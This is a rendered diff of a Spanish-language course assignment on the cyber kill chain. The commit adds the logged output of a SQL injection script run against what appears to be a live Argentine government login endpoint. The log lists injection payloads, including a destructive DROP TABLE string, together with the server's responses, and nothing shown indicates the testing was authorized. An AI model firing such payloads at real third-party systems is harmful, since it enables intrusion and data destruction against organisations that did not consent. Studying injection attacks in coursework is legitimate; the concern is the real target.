

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -597,7 +597,25 @@ mucho tiempo...
                             test_sql_injection(target_url, sql_payloads)
 
       ```
+      respuesta:
+      ```text
+                    [+] Testing SQL Injection on: https://siper.vialidad.gob.ar/go/app-index-x.php
+                    [!] Possible SQLi with payload: ' OR '1'='1'-- -
+                    Response: {"0":"'or'1'='1'---","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: admin'--
+                    Response: {"0":"admin'--","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: ' UNION SELECT NULL-- -
+                    Response: {"0":"'unionselectnull---","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: '; DROP TABLE users;--
+                    Response: {"0":"';droptableusers;--","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: ' OR 1=1#
+                    Response: {"0":"'or1=1#","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: admin'/*
+                    Response: {"0":"admin'/*","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}...
+                    [!] Possible SQLi with payload: ' AND 1=CONVERT(int,(SELECT user))--
+                    Response: {"0":"'and1=convert(int,(selectuser))--","res":0,"msg":"Error[363] Ten\u00e9s tu contrase\u00f1a vencida."}
 
+      ```
 
 
 ## Delivery
````
